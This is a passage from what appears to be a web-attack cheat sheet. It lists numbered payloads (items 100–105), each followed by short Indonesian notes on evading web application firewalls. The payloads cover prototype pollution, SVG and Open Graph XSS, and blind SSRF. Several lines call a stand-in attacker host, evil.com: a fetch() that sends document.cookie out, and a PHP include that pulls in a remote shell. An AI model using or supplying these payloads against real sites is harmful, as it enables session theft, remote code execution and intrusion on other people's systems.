 
### **🛡️ 100. JavaScript Prototype Pollution Exploit**  
```js
Object.prototype.admin = true;
```
**📌 Teknik:**  
✅ **Prototype Pollution** = Mengubah objek global untuk mengubah logika aplikasi.  
✅ **Bypass WAF** karena tidak terlihat seperti payload serangan langsung.  

---

### **🛡️ 101. HTML Injection via SVG XSS**  
```html
<svg onload="alert('XSS')"></svg>
```
**📌 Teknik:**  
✅ **SVG XSS** = Mengeksploitasi tag `<svg>` untuk menjalankan JavaScript.  
✅ **Bypass WAF** karena beberapa filter tidak menangani SVG dengan baik.  

---

### **🛡️ 102. Reflected XSS via Open Graph Metadata**  
```html
<meta property="og:title" content='"><script>alert(1)</script>'>
```
**📌 Teknik:**  
✅ **OG Metadata XSS** = Menyisipkan skrip dalam tag Open Graph (`<meta>`).  
✅ **Bypass WAF** karena payload tidak berada dalam body HTML utama.  

---

### **🛡️ 103. Blind SSRF using Out-of-Band (OOB) Channel**  
```http
GET /api?url=http://evil.com/callback
```
**📌 Teknik:**  
✅ **Blind SSRF** = Menggunakan request ke domain eksternal untuk mengekstrak informasi.  
✅ **Bypass WAF** karena hanya terlihat seperti request biasa ke API.  

---

### **🛡️ 104. JavaScript Cookie Theft via document.cookie**  
```js
fetch("http://evil.com/log?cookie=" + document.cookie);
```
**📌 Teknik:**  
✅ **Cookie Theft** = Mengirimkan cookie pengguna ke server penyerang.  
✅ **Bypass WAF** karena kode JavaScript ini sering digunakan secara sah.  

---

### **🛡️ 105. File Inclusion Exploit with Remote Payload Execution**  
```php
<?php include("http://evil.com/shell.php"); ?>
```
**📌 Teknik:**  
✅ **Remote File Inclusion (RFI)** = Menjalankan kode dari server penyerang.  
✅ **Bypass WAF** dengan memanfaatkan fitur `include()` di PHP.  

---